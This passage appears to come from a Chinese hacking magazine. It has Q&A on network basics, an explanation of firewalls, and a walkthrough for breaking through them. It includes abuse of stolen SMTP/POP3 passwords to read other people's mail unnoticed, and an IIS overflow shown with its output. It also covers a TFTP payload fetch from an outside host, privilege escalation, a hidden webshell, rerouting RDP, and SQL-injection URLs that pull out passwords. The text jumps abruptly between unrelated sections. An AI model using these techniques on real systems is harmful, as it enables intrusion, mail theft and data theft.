答：并不排除这种可能。但更多的情况下，导致防火墙记录中 ICMP 出现的原因并非有人在对你进行 ping 检测。

在我们日常上网中，除了 ping 以外，还有一个比 ping 更常见，且是使用 ICMP 的东西——路由器重定向（路由通告）。路由器重定向其实是经常发生的，简单地说，当路由器或其它一些网络上的主机和设备发现一条从你主机到现在发送请求的服务器更好的连接线路时，它们就会发送一些 ICMP 数据包给你，这些包中的内容是告诉你一条更好的路由线路或报告路由器有堵塞或其他情况。

其实，通过 ICMP 数据包的类型和代码就可以区别其作用。例如，常见的 ping 的 ICMP 类型是 8，代码是 0；而路由器重定向的类型是 9，代码是 0。当然，在 Internet 上，ICMP 协议的利用还有很多，有关这点，大家可搜索一篇叫做《ICMP 详解》的文章，相信会对你有所帮助。

**问：我启用了 TCP/IP 筛选，并且在里面只允许了几个像 80 这样的常用端口，但是却发现电脑上不了网了，这是为什么呢？**

答：端口 80 似乎迷惑了很多人的眼睛，80 端口是 web server 开放的端口，而我们作为客户端去浏览 web 时，使用的则不是 80 端口了。使用 IE 浏览 web 时，IE 会自动打开一些有规律的临时端口，这些端口应该是在端口号 1024 以上（TCP 端口），而且 IE 会根据连接的多少和要求（例如下载数据）来决定临时端口的多少。

另外，像 FTP 和 QQ 这样的软件，都会在机器上打开临时端口来传输数据，所以我们只针对几个固定端口进行“允许”设置的话，那么无形中就屏蔽掉了那些需要打开的临时端口，这样自然就会影响上网。

另外，还有一个问题。例如，在这里我们没有允许 TCP 23 端口，那么在启动 Telnet 服务时还会收到错误信息。类似的还有一些其他问题，大家可以去看看。总之，希望大家慎用“TCP/IP 筛选”这个工具。

**问：我获得了 SMTP 弱口令，该如何使用？**

答：SMTP 的弱口令作用不大，对我们来说也就是发些匿名邮件而已。当然，如果骗术好，再加上点运气，也许还能骗到点东西。

使用 SMTP 弱口令的方法很简单。以 Outlook Express 为例：执行“工具→帐户→邮件→添加→邮件”。接下来可随意填写，直至来到“电子邮件服务器”页。在 SMTP 服务器地址上你填写扫描到的服务器 IP 或域名，POP3 处则随意填写。然后点“下一步”，写上扫到的弱口令和对应的帐号，接下来就可创建新邮件，并选择使用该服务器发送你的匿名邮件。

**问：我获得了 POP3 弱口令，该如何使用？**

答：和获得 SMTP 弱口令类似，获得 POP3 口令一般也只是替别人收收邮件。不过，也许能从邮件中获得重要信息。设置方法和设置 SMTP 的方法类似，只是到了“电子邮件服务器”时，把 POP3 服务器的地址填上，而 SMTP 的服务器地址可随意填写。

另外，因为 POP3 协议的定义是将邮件下载到本地，所以可在 OE 的“工具→选项→维护”中设置邮件在被下载几天后才从服务器上删除。在这里，我们可把时间设置得长一些，免得信箱真正的主人收不到信而产生怀疑。

**问：呆呆，我该如何远程获得对方的进程列表？**

答：使用 tlist 这个工具进行进程列表相信很多朋友都知道，但在 Win2k support tools 中还有这样一个工具——Process Viewer，这是个图形界面工具，只要与对方建立了 IPC$ 连接（需要有足够的权限），在 Process Viewer 中填上对方的地址（格式为 \\x.x.x.x），再点“connect”就可连接并查看对方的进程。而且，如果权限足够高，还可直接杀掉对方的某个进程！

**问：sniffer 到底是如何嗅探到数据的？**

答：在广播型网络中，当一台主机发送数据时，会将数据复制 N 份并把每份数据发送到每个节点上，让节点主机自己去判断是否为该数据的接收方。另外，sniffer 可将网卡激活为混杂模式，而在混杂模式下，则可接收所有经过主机的数据。以上两个条件加起来，就有了 sniffer 的用武之地了。当在广播型网络中 sniffer 时，由于所有数据都会被一份份复制并发送过来，所以我们可“截获”到这些本不属于我们的数据。

# 主题乐园

很多朋友在测试网络漏洞或网络应用实践中经常会碰到对方开启了防火墙的现象，由于对自己判断大都不甚了解，有时候会闹笑话。笨笨以一个全面的自我剖析，向大家介绍一下防火墙的简单知识，使大家有更深一步的了解与认识。

## 一、什么是网络防火墙

防火墙是一类防范措施的总称，它使得内部网络与 Internet 之间或者与其他外部网络互相隔离，限制网络互访用来保护内部网络。防火墙简单的可以只用普通路由器实现，复杂的可以用主机甚至一个子网来实现。设置防火墙目的都是为了在内部网与外部网之间设立唯一的通道，简化网络的安全管理。实现防火墙的实际方式各不相同，但是在原则上，防火墙可以被认为是这样一对机制：一种机制是拦阻传输流通过，另一种机制是允许传输流通过。了解有关防火墙的最重要的概念就是它实现了一种访问控制策略。

## 二、什么是访问控制

访问控制是信息安全保障机制的核心内容，它是实现数据保密性和完整性机制的主要手段。访问控制是为了限制访问主体（或称为发起者，是一个主动的实体，如：用户、进程、服务等），对访问客体（需要保护的资源）的访问权限，从而使计算机系统在合法范围内使用。访问控制机制决定用户及代表一定用户利益的程序能做什么，以及做到什么程度。访问控制机制应用在网络安全环境中，主要限制用户可以建立什么样的连接以及通过网络传输什么样的数据，这就是传统的网络防火墙。防火墙作为网络边界阻绝点来过滤网络合法和非法数据传输。根据防火墙的性能和功能，这种控制可以达到不同的级别。

## 三、网络防火墙的分类

按概念大体上防火墙可分为网络级防火墙（硬件防火墙）、应用级防火墙（软件防火墙）和双宿主机防火墙（堡垒服务器）。

### 1、网络级防火墙

网络级防火墙一般根据源、目的地址做出决策，过滤单个的 IP 包。一台简单的路由器是“传统的”网络级防火墙，因为它不能做出复杂的决策，不能判断出一个包的实际含义或包的实际出处。现代网络级防火墙已变得越来越复杂，他们可以保持监控流经它的数据的状态和联接的状况，这种属于包过滤型防火墙。这些功能都需要防火墙具有很强的处理能力，目前这只是个趋势，还没有大面积的推广。许多网络级防火墙之间的一个重要差别是防火墙可以使传输流直接通过，因此要使用这样的防火墙通常需要分配有效的 IP 地址块。网络级防火墙一般速度都很快，对用户很透明。

### 2、应用级防火墙

应用级防火墙一般是运行代理服务器的主机，它不允许传输流在网络之间直接传输，并对通过它的传输流进行记录和审计。由于代理应用程序是运行在防火墙上的软件部件，因此它处于实施记录和访问控制的理想位置。应用级防火墙可以被用作网络地址翻译器，因为传输流通过有效地屏蔽掉起始接入原址的应用程序后，从一面进来，从另一面出去。在某些情况下，设置了应用级防火墙后，可能会对性能造成影响，会使防火墙不太透明。应用级防火墙一般会提供更详尽的审计报告，比网络级防火墙实施更保守的安全模型（如图 1）。

### 3、双宿主机防火墙

双宿主机防火墙一般采用主机取代路由器执行安全控制功能，故类似于包过滤防火墙。双宿主机即一台配有多个网络接口的主机，它可以用来在内部网络和外部网络之间进行寻径。如果在一台双宿主机中寻径功能被禁止了，则这个主机可以隔离与它相连的内部网络与外部网络之间的通信，而与它相连的内部网络和外部网络仍可以执行它们所提供的网络应用。如果这个应用允许的话，它们就可以共享数据，这样就保证了内部网络和外部网络的某些节点之间可以通过双宿主机上的共享数据传送信息，但内部网络与外部网络之间却不能传递信息，从而达到保护内部网络的作用（如图 2）。

## 四、网络防火墙在网络中的位置

防火墙通常处于受保护的内部局域网与 Internet 之间，可限制 Internet 用户对内部网络的访问以及管理内部用户访问外界的权限。换言之，防火墙可看成是一个被认为是安全和可信的内部网络和一个被认为是不那么安全和可信的外部网络（通常是 Internet）之间提供封锁的工具。因此防火墙只适合于相对独立的网络（如图 3）。到这里理论篇就结束了，你是否已经对网络防火墙有了初步的认识呢？接下来就来进一步分析——

## 防火墙分析

The Wall

防火墙的攻击似乎是一个很麻烦的问题。在这部分我将详细向大家讲一下如何解决因防火墙的限制为我们带来的不便，以及常遇到几种防火墙的判断。

首先我们先来看目标防火墙在攻击中会给入侵者造成什么样的麻烦。

- 1、 防火墙阻止 ICMP 响应。如果防火墙阻止 ICMP 响应，那么 PING、TRACERT 等命令均不能使用，这样无疑加大了入侵者对目标服务器类型判断的难度。
- 2、 防火墙只允许连接合法端口。攻击程序溢出打开的端口，只要不是防火墙设定的合法端口均不能进行连接。
- 3、 防火墙的“程序访问控制”功能影响后门放置。程序访问控制将极大的影响入侵者对目标服务器的上传动作。

面对这样的问题应该怎么解决呢？我们再来看看解决的办法：

- 1、 对于有防火墙的目标应该采用无条件扫描的方式。X-WAY 和 X-SCAN 均有无条件扫描的方式可以选择。
- 2、 对装有防火墙的机器溢出也有窍门的，因为防火墙只允许连接合法端口，所以我们要尽量选择对合法端口的攻击程序。并且这类型的攻击程序还要是溢出后能自动使用隧道方式连接的工具才行。否则溢出打开的端口你是不能连接的。这里有这样一个小插曲，一次我用 WebDAVScan 扫描到一台有 WEBDAV 漏洞的服务器。于是没有再多做探试就直接用 WEBDAVX3 进行了溢出，溢出很快就成功了。但对方的 7788 端口始终没有打开，由于 WEBDAV 漏洞影响 IIS 服务所以该网站瘫痪了一天（遗憾），当网站恢复以后我又用扫描器扫描了一下发现该服务器可能有防火墙。于是采用另外的溢出程序成功的侵入，侵入后果然发现服务器前面有一台路由器。
- 3、 程序访问控制的影响。这个影响最多的是体现在使用个人网络防火墙的主机上，当成功得到 SHELL 后，我们肯定会上传程序到服务器，当上传的程序如果没有添加到防火墙“程序访问控制规则”中的话，防火墙就会弹出警告框询问是否允许程序访问网络。这个问题的解决办法只有想办法关闭防火墙。这个可能很需要时间。

在入侵到装有防火墙的主机后，第一件要做的事情就是判断防火墙的类型了。只有准确的判断了防火墙的类型才能有针对性的提出后续的入侵思路。现在我们就来分析一下各种防火墙的判断吧。

首先，在入侵某个服务器以前先要大概确定目标是否有防火墙。首先不用说就是 PING 了，如果不能 PING 通，但你确定它存在主机的 IP，那肯定就是有防火墙了。如果能 PING 通的话，就需要扫描一下端口，通过端口来判断（这里我们以 Windows 2000 系统为例）。

Windows 2000 除开各种服务默认的端口就是 135、139、445 等大家熟悉的端口了。但这里我们就把这些端口作为本次扫描的特征端口。扫描一个系统后，如果发现 135、139、445 等端口都开放的话，那么 80% 这个服务器没有防火墙。如果发现 135、139、445 等端口都没有开放的话，就说明该服务器做过一定的防御性设置，但是不是防火墙还无法准确判断，这时候你就可以找个漏洞来试图入侵了。目前的入侵原则是尽量使用开放的端口来入侵。例如 SQL 注入、WEBDAV、RPC、MEDIA、ASP 溢出、EIP 后，就能很明确的判断对方的防御性设置了。目前大多数的防御性设置大概有这样 3 种：

- 1. 使用路由器。通过路由器的 NAT 功能将服务器端口映射到服务器的端口。使用命令 IPCONFIG /ALL，可以查看目前服务器的 IP 设置判断。

```text
C:\WINNT\system32>IPCONFIG /ALL

Windows 2000 IP Configuration
Host Name . . . . . . . . . . : no1
Primary DNS Suffix . . . . . . :
Node Type . . . . . . . . . . : Broadcast
IP Routing Enabled. . . . . . : No
WINS Proxy Enabled. . . . . . : No
Ethernet adapter 本地连接:
Connection-specific DNS Suffix . :
Description . . . . . . . . . : Realtek RTL8139(A) PCI Fast Ethernet Adapter
Physical Address. . . . . . . : 00-E0-4C-43-E1-D6
DHCP Enabled. . . . . . . . . : No
IP Address. . . . . . . . . . : 192.168.0.2
Subnet Mask . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . : 192.168.0.1
DNS Servers . . . . . . . . . : 202.103.0.117
                                202.103.24.68
```

由上面的配置可以看到本机 IP 是 192.168.0.2，默认网关是 192.168.0.1，这样的设置，我们基本可以判断该主机前面有一个路由器充当防火墙阻止其非法端口的连接。

- 2. 使用个人防火墙。个人防火墙的查找比较简单，只要使用 `dir /s 文件名` 就可以查到了。当然这个需要你比较熟悉各种个人防火墙的主执行文件。下面我们以天网为例（如图 4）。图 4 就是天网目录下的防火墙文件，想必大家不会陌生的。由此我们可以断定它是天网防火墙。当然其他的防火墙的文件是不同的。如果你要想都很清楚的话，我建议你找到所有的个人防火墙都安装一遍就清楚了。

- 3. TCP/IP 筛选规则。TCP/IP 筛选规则比较难判断，既没有 IP 可以判断也没有文件夹和文件判断。唯一的判断方法就是打开## 主题乐园

一个端口再远端连接这个端口。（如果确实是 TCP/IP 筛选规则的话是可以通过 TFTP 上传文件的）当然如果取得了 3389 权限一样可以看到的。如图 5。

从图 5 可以看出该服务器允许了 21、25、80 等端口【注：因为截图关系，实际上把滑动条往下拉，我们还能看见允许了 110、443、3389 这几个端口。】

由上面的结果可以看出它只开放了 21 和 80 端口。WEB 并不存在 idq 和 Unicode 漏洞，并且 139、445 等端口也被屏蔽，很显然他做了某种设置。看来热门的漏洞是肯定不行的了，通过上面的结果大概可以判断出该目标的补丁版本是 SP2 并打上了 idq 和 Unicode 漏洞的补丁。不如利用 ASP 溢出漏洞来测试一下，虽然权限不高但起码还是可以进去的，进去以后再想办法吧。使用 ASPCODE.EXE 来对其进行溢出。使用命令：`ASPCODE XXX.XXX.193.199 iisstart.asp 80 0`，如图 6。


看了上面的分析之后你有什么感觉呢？是不是一切都很简单呢？的确，任何事情理解了原理都是很简单的。为了能让大家更加熟悉，并能举一反三，我给大家讲几个例子。看完例子后我相信大家会更加明白的，俗话说熟能生巧就是这个道理。下面我们具体看看例子吧（下面这两个穿透防火墙的例子，是我以前在实践中记录下来的，其中涉及到的一些漏洞可能比较早，不过，没有关系，讲例子的目的是为了更好的阐述本文思想）。

## 例一

```
D:\TOOLS\ASPCODE XXX.XXX.193.199 iisstart.asp 80 0

IIS ASP.DLL OVERFLOW PROGRAM 2.0 -
copy by yuange 2002.4.24.
welcome to homepage http://yuange.yeah.net -
welcome to http://www.ndfocus.com -
usage: ASPCODE <servip> [aspfile] [webport] [usinsp]

nuke ip: XXX.XXX.193.199 port 80
shellcode leng 0x13a7

packet lang=0x13a7

send packet 71827 bytes.
recv:
C:\INETPUB\WWWROOT\IISSTART.ASP
oltrrecv 112 bytes

C:\WINNT\system32>
```

图 6

很早以前有一个在网吧做网管的朋友，他用网吧服务器做了一个网站，要我帮他测试一下该网站的安全性。当时大家还在关注 idq 和 Unicode 漏洞，本以为利用这两个漏洞就可以轻松搞定这个网站，于是很爽快的答应了他的邀请。在他告诉了我他的 IP 以后，我们约定了一个时间就准备开始测试了。

从图 6 可以看出，我们运气不错，获得了目标 shell。这里我们能够穿过防火墙是因为 ASPCODE 使用了 HTTP 隧道技术的连接方式。HTTP 使用 80 端口，该端口是防火墙的合法端口，所以轻轻松松的就穿过了防火墙，如图 7。

在攻击以前肯定要先刺探一番。先 PING 它 IP——XXX.XXX.193.199，是通的，这说明 ICMP 没有被拒绝。然后拿出 X-Way 扫描器一阵狂扫，得到的扫描报告很奇怪。

```
探测主机：XXX.XXX.193.199
FTP 匿名检测 -> XXX.XXX.193.199 允许匿名登陆.
服务检测 FTP -> 220 zhang Microsoft FTP Service (Version 5.0).
服务检测 HTTP -> Microsoft-IIS/5.0
检测 Port -> XXX.XXX.193.199 端口 21 [ftp] 开放 ...OK
检测 Port -> XXX.XXX.193.199 端口 80 [http] 开放 ...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?PageServices (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/_vti_inf.html (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/_vti_bin/shtml.exe (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/_vti_bin/shtml.dll (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/_vti_bin/shtml.dll/nosuch.htm (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/msadc/msadcs.dll (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/iissamples/sdk/asp/docs/codebrws.asp (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-cs-dump (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-html-rend (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-start-ver (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-stop-ver (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-usr-prop (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-ver-diff (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-verify-link (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-ver-info (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/?wp-uncheckout (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/_vti_bin/fpcount.exe (502)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/_vti_bin/shtml.dll/_vti_rpc (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/_vti_pvt/doctodep.btr (200)...OK
发现 CGI 漏洞 -> XXX.XXX.193.199/_vti_bin/_vti_aut/author.dll (200)...OK
```

```
TCP 0.0.0.0:21 0.0.0.0:0 LISTENING
TCP 0.0.0.0:262 0.0.0.0:0 LISTENING
TCP 0.0.0.0:2263 0.0.0.0:0 LISTENING
TCP 0.0.0.0:2264 0.0.0.0:0 LISTENING
TCP 0.0.0.0:2265 0.0.0.0:0 LISTENING
TCP 0.0.0.0:3372 0.0.0.0:0 LISTENING
TCP 0.0.0.0:6560 0.0.0.0:0 LISTENING
TCP 0.0.0.0:8773 0.0.0.0:0 LISTENING
TCP 19.254.228.183:139 0.0.0.0:0 LISTENING
TCP 219.1.194.113:80 219.1.194.145:1086 ESTABLISHED
TCP 219.1.194.113:139 0.0.0.0:0 LISTENING
TCP 219.1.194.113:246 0.0.0.0:0 ESTABLISHED
TCP 219.1.194.113:249 0.0.0.0:0 SYN_SENT
```

图 7

（HTTP 隧道技术：把所有要传送的数据全部封装到 HTTP 协议里进行传送，渗透者一般可以采用这种方式欺骗穿过防火墙的包过滤从而令防火墙不阻拦其数据传输，类似的程序还有 webdav 都是可以穿过防火墙而直接得到 shell 的。）仅仅穿过防火墙是不够的，还要进一步控制，用 IPCONFIG /ALL 查看当前服务器的 IP，发现为 192.168.0.254，网关为 192.168.0.1，如图 8。

```
C:\WINNT\system32>IPCONFIG /ALL

Windows 2000 IP Configuration

Host Name . . . . . . . . . . . . : SERVER
Primary DNS Suffix . . . . . . . :
Node Type . . . . . . . . . . . . : Broadcast
IP Routing Enabled. . . . . . . . : No
WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter 本地连接:

Connection-specific DNS Suffix . :
Description . . . . . . . . . . . : Realtek RTL8139(C) PCI Fast Ethernet
Physical Address. . . . . . . . . : 00-E0-4A-C3-05-E1
DHCP Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 192.168.0.254
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.0.1
DNS Servers . . . . . . . . . . . : 202.103.0.117
                                     202.103.24.68
```

图 8

呵呵！能看出来吗？服务器前面有路由器。这个结果跟分析篇的第一种防御方式几乎是一样的。好了，现在我们明白它的组网方式了。路由器加上 NAT 功能，这样的防火墙虽然屏蔽了对外的端口，不能从本地上传，但可以从远端使用 TFTP 反向连接到本地下载。虽然 Copy 到目标服务器上的方式不一样，但最终的效果还是一样的（即 1 不能上传文件到 2，但 2 可以从 1 下载文件回来）。

接下来，我上传了 Getadmin 这个文件到目标服务器（注：Getadmin 是 NT/2K 下的权限提升工具），然后用该工具把 IWAM_SERVER 这个用户提升为 ADMIN 权限（这个过程，以前相关文章说得太多，就不详述了）。

> 这里为什么提升 IWAM_SERVER 的权限，而不是用 Getadmin 工具去创建一个新的账号并提升呢？因为目前有防火墙的机器只允许使用好 21 和 80 端口，就算创建一个 ADMIN 账户也没有地方登录。所以不如提升 IWAM_SERVER，等待对方重启后，用 WEB 方式来控制后续的操作。（对于 IIS 的账号很多资料上说是 IUSR_XXX，其实提升这个账号是没用的。应该提升的是 IWAM_XXX 这个账号，它是启动 IIS 进程的账号，Web 访问会继承该账号权限）。

提升完毕，我接着还是用 TFTP 反向上传了 CMD.ASP 到对方的 C:\INETPUB\WWWROOT 目录（此目录是他存放网页的目录），并将该文件改名，以达到隐藏的效果。完成这一切后就等对方重启吧！

第二天上线查看 ASP 页面，果然有权限了。没话说，按普通方式打开 3389 端口吧，这里又有问题出现了。3389 端口在路由上并没有打开。所以我们可以用两种方法：

### 1. 修改服务端口
停止 FTP 服务，将 3389 服务的端口改为 21。然后再用 3389 客户端直接连接 21 端口。把 3389 改为 21，我们需要修改注册表，相关修改键值如下：

```
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000d3e

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000d3e
```

将上面两处涉及到的 “dword:00000d3e” 改成 “dword:00000015” 就可以了。

### 2. 端口转发
停止 FTP 服务，然后用端口转发软件将 21 端口数据转发到 3389 端口。然后再用 3389 客户端直接连接 21 端口。推荐使用端口转发软件 rinetd.exe。具体步骤为：

- 1、创建一个文本文件内容如下：
```
XXX.XXX.193.199 21 192.168.0.254 3389
```
> 其中 XXX.XXX.193.199 是服务器的公网 IP；21 为公网 IP 开放的端口；192.168.0.254:3389 是服务器内部 IP 和需要转发到的目的端口。

- 2、上传 rinetd.exe 和新创建的文本文件到服务器的同一目录，然后执行命令：
```
rinetd.exe -c 11.txt
```
就可以了。如图 9：

接下来的事情就不用说了！打电话通知了朋友，让他自己用 3389 客户端连接 21 端口看看。看到这里，可能有朋友会问，你为什么不在服务器重启以前就直接端口转发用 3389 控制服务器呢？

问得好！因为 ASPCODE 溢出得到的权限是 GUEST，21 端口当时被 FTP 服务占用。GUEST 权限是不能停止服务的，所以只有让他重启，然后我用 WEB 界面的 ADMIN 权限才能去停止 FTP 服务，从而释放 21 端口。怎么样，路由类型的防火墙突破就是这么简单哦！接下来我们再看第二个例子。


## 例二

首先说明一下这个例子非常有代表性。以前控制了一台肉鸡本来也没有什么，因为把漏洞通知了管理员，慢慢地，跟管理员也混熟了。一天准备登录肉鸡的时候发现上不去了，很奇怪！于是准备来详细地查看原因了。

照例先扫描，使用 X-Way 点击开始扫描后，扫描器没有任何反应并且不能关闭，看来又遇到防火墙了。提示：当对装有防火墙的机器进行扫描的时候，大部分的扫描会被拦截，这时，扫描器呈等待目标响应状态，故容易出现扫描器没有任何反应且不能关闭的状态。关闭扫描器，使用 PING 命令测试对方 ICMP 响应，结果 PING 报告没有数据包返回。看来对方在服务器上装了一个屏蔽了 ICMP 的防火墙。那么现在只能在端口上查看了。使用 SuperScan 填入对方 IP，并将“只扫描 PING 后有回应”选项前的勾去掉，再选中“所有端口定义”将范围定在 1-4000 的范围（太大的反而没有意义了），如图 10：


从图 10 我们可以看出目标只开放了 1433 端口。原来的后门和服务端口全部没有了，看来是换系统了。先看看他 SQL 有没有打补丁，如果没有的话也许可以利用 sql2.exe 来尝试溢出了。我用 SQLWormScanner 扫描了该 IP 一下，结果报告大失所望，看来 sql2.exe 是无法用了。如图 11：


看来需要放弃了，最后来猜测一下 SQL 服务的密码吧。使用“sqlcmd IP 用户名 密码”这个格式连接服务器测试吧！

```
Sqlcmd XXX.XXX.197.206 sa ""
```

如图 12：


图 12

哇，菜！好运气，这就是传说中的 SQL 弱口令了。没这么好运吧！有可能这个服务器还在安装中，所以只是暂时安装了一个屏蔽了 ICMP 的防火墙也说不定哦！

不管他了，先弄清楚防火墙的类型再说吧。使用 `ipconfig /all` 看看本机的 IP 设置，如图 13：


图 13

看来服务器前面没有路由器做的防火墙或者专业的防火墙哦，那么再来查看一下它的文件目录。（重点要查看一下 Program Files 目录下的文件夹）如图 14。

FireWall？在 C:\Program Files 下发现一个 FireWall 目录。不用说了，是防火墙哦，进入 FireWall 目录用 dir 查看文件，就是天网防火墙了。这个时候如果用 TFTP 来下载软件的话会超时失败的，如图 15。


图 14

```
sqlCmd>tftp -i 211.151.128.11 get pslist.exe
Timeout occurred
Connect request failed
Connect request failed
sqlCmd>
```

图 15

看来下面的首要任务是如何关闭防火墙了。

> 注意：在网络上很多朋友说用 pslist 列出远程进程，然后用 pskill 杀掉防火墙的进程就可以了。这个说法是不对的！pslist 和 pskill 是要在提供远程高级用户的密码以后，并且高级用户要有 IPC$ 才可以对进程进行操作。再说个人防火墙都关闭了 139 端口，屏蔽了连接，所以根本就不能建立 IPC$ 连接，既然连接都不能建立又何谈可以列举和杀掉进程呢？

目前还不能上传文件，个人防火墙突破的关键就在这个地方。这里几乎没有任何东西可以帮你关闭防火墙的，但防火墙总要关闭啊！否则下一步的动作就无法开展。


图 16

这里发现一个很有趣的问题，防火墙的主执行文件执行后，虽然不能删除但却可以改名。我们可以将防火墙的主执行文件改名后再重启服务器，这样系统会因为找不到文件而不执行防火墙的主执行文件的。

```sql
/list.asp, 行13

http://ilikekiss.com/show.asp?id=1 and 111<>(select count(*) from admin where username<>'111' and password>1)
```

出错信息：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
> [Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'testisxs' 转换为数据类型为 int 的列时发生语法错误。

这是构造畸形语句来让数据库出错，如果 IIS 的“脚本错误信息”选项是“发送详细 ASP 错误消息给客户”，那浏览器就会返回上面的出错信息，数据库自动将我们想要的 username 和 password 字段的值发送到浏览器了，相关技术在《黑客X档案》2003年9期的“密码，让 DVBBS 自己招”有详细分析和实例说明。

```sql
http://ilikekiss.com/show.asp?id=1;update [user] set usergroupid=1 where userid=7;--
```

这句的意思是更新“user”表里“userid”字段为7的那行“usergroupid”字段的值为1。我们仅仅是利用“update”这个语法，就可对数据库的数据进行修改，这也相当常见。还有“insert into”语法可插入一行新的记录。只要熟悉 SQL 语法，其实都会很容易构造，就像化学的方程式配平一样。

下面我们来检测一下漏洞。在大多数 ASP 站点中，我们并不知道其程序代码，靠任何扫描器也不可能发现 SQL injection 漏洞，这时就只有手工检测了。由于我们执行 SQL 语句要用到单引号、分号、逗号、冒号和“--”，所以我们就在可修改的 URL 后加上以上符号，或在表单中的文本框加上这些符号，比如：

```
http://ilikekiss.com/show.asp?id=1'   // 通常出错就是没有过滤
http://ilikekiss.com/show.asp?id=1;   // 通常正常显示就是没有过滤
```

通过页面返回的信息，判断是否存在 SQL injection 漏洞。只是最简单的通过字符过滤来判断，根据 IIS 配置不同，返回的信息是不定的，有时显示：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e21'
> ODBC 驱动程序不支持所需的属性。

```
/register/lostpass2.asp, 行15
```

有时可能会显示“HTTP 500－内部服务器错误”，也可能显示原来的页面（也就是页面正常显示），更可能提示“HTTP 404 找不到该页”。判断是否有漏洞就要有个最基本的根据——经验。

当然，如果能看到 ASP 源代码就更加容易了，判断程序是不过滤或是怎么过滤的。一般要找开放源代码程序的 SQL Injection 漏洞，只要多注意一下执行 SQL 语句的地方，分析一下变量的取值语句，看看是如何过滤或转换的。找到其中的漏洞加以利用，成功的话就恭喜了！

### （2）Access

Access 的也和 MSSQL 的差不多的，但 Access 的功能没有 MSSQL 这么强大，但丰富的查询语句也可以查询到我们所需要的信息。看一个最简单的跨表查询例子：

```asp
id=request("id")
Set rs = Server.CreateObject("ADODB.Recordset")
sql="SELECT * FROM article where id="&id
rs.OPEN sql, Conn,1,3
```

ID 这个变量是可以从浏览器地址栏提交的。比如 `show.asp?id=1`，但仅仅是简单的 request 得到变量，没有对用户提交的数据做任何检查，就算我们乱提交一个字符串“show.asp?id=angel”都会直接放入 SQL 语句，变成：

```sql
sql="SELECT * FROM article where id='angel'"
```

这当然不会显示什么，因为没有这个数据。id 是数字类型的，通过跨表查询我们可以这样判断是否正确：

```
http://ilikekiss.com/show.asp?id=1 and 1=1   // 这个会正确显示页面
http://ilikekiss.com/show.asp?id=1 and 1=2   // 这个会显示错误信息
```

但为什么我们提交下面的 URL 又不能判断呢？

```
http://ilikekiss.com/show.asp?id=1 or 1=1   // 这个会正确显示页面
http://ilikekiss.com/show.asp?id=1 or 1=2   // 这个会正确显示页面
```

这正是由于 SQL 语句的问题。and 在这里翻译为“并且”，or 翻译为“或者”。当我们将语句提交时，查询语句会变成这样：

`sql="SELECT * FROM article where id=1 and 1=2"` 是要同时满足 and 前后的两个条件才可以显示正常信息，而 1=2 显然是不成立的。

`sql="SELECT * FROM article where id=1 or 1=2"` 只需要满足 or 前后其中之一就可以了。尽管 1=2 是不成立的，但前面的条件是成立的，所以照样显示正常的信息。然后我们就可构造各种 SQL 语句来进行攻击了：

```sql
http://ilikekiss.com/show.asp?id=1 and 1=(select count(*) from admin)   // 判断表是否存在
http://ilikekiss.com/show.asp?id=1' and 1=(select id from admin where password<>'0' and id=1);   // 判断字段是否存在
http://ilikekiss.com/show.asp?id=1 and 1=(select id from admin where len(password)=9 and id=1)   // 判断 password 字段的长度
http://ilikekiss.com/show.asp?id=1 and 1=(select id from admin where left(password,1)='a');   // 判断 password 字段左边第一位的字符
```

其实在 SQL 注入时，如何构造 SQL 语句也是很有学问的。由于其灵活性，大家在网上看到的多数 SQL 注入文章中构造的语句多种多样，就是这个原因。所以要掌握好 SQL Injection 技术就必须掌握好数据库的各种语句，否则就永远是生搬硬套、依葫芦画瓢。

这个只是跨表查询的一个例子。什么时候用到跨表查询呢？当查询语句只是查询非用户资料的表时（比如 article 表），这里存放着文章的各种信息，但是我们要查询的是用户的密码或者其他隐私的东西，所以就要用到一个子查询语句来查询存放用户信息的表。如果程序本身是 `SELECT * FROM user` 的话，我们就不需要跨表查询了。如果一个查询语句是这样写：

```sql
sql="select * from user where username='"&request("username")
```

我们就可轻而易举地构造 username 这个变量。像以前老版本的动网论坛一样，提交：

```
http://www.ilikekiss.com/dispuser.asp?name=angel' and len(userpassword)=5 and '1'='1
```

这样就可猜测用户的密码长度了。很多程序都可以用这种方法来攻击，前面多是分析原因和原理。到后面给大家来一点实例，在其他的例子里，我会把测试的程序及其版本告诉大家。

其实进行注入的时候，浏览器并不是唯一的工具，大名鼎鼎的 nc 也是，多用于构造 Cookie 来攻击。因为有些数据是用 post 的方式来提交的，所以我们必须用 nc 来提交。首先在本机架设一个相同的 WEB 环境，然后输入下面命令来捕获数据：`nc -l -p 80`。

